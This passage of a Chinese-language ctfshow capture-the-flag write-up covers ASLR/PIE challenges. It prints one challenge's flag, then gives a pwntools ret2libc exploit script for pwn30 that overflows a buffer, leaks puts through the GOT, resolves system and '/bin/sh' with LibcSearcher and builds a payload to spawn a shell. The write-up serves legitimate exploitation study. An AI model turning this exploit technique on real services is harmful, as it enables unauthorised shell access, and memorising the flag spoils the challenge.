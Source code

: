 

As you can see, the portection has been fully turned on and the address has been completely randomized!

可以再运行一次再截图，可以发现地址啥的都变了

![image-20241030213439544](../_media/image-20241030213439544.png)



flag：

```
ctfshow{Address_Space_Layout_Randomization&&Position-Independent_Executable_1s_C0000000000l!}
```



## 30. pwn30

关闭PIE后

程序的基地址固定，攻击者可以更容易地确定内存中函数和变量的位置。



老规矩，check一下

![image-20241030213745278](../_media/image-20241030213745278.png)

开了nx



看了一下源代码，感觉很前面某道题一模一样啊，照搬25题，秒了

怎么题目都能一样的！！！！虽然学习的知识点不一样，但这是一块钱啊！类目

代码：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28117
p = remote(ip,port)  
elf = ELF('./pwn')
puts_plt = elf.plt['puts']      
main_addr = elf.symbols['main']
puts_got = elf.got['puts']     
payload0 = b'a' * (0x88 + 0x04) + p32(puts_plt) + p32(main_addr)+p32(puts_got)
p.sendline(payload0)
puts_addr = u32(p.recv(4))         
libc = LibcSearcher('puts', puts_addr)      
libc_base = puts_addr - libc.dump('puts')   
system_addr = libc_base + libc.dump('system') 
binsh_addr = libc_base + libc.dump('str_bin_sh')   
payload = b'a' * (0x88 + 0x04) + p32(system_addr) + b'a'*4 + p32(binsh_addr)
```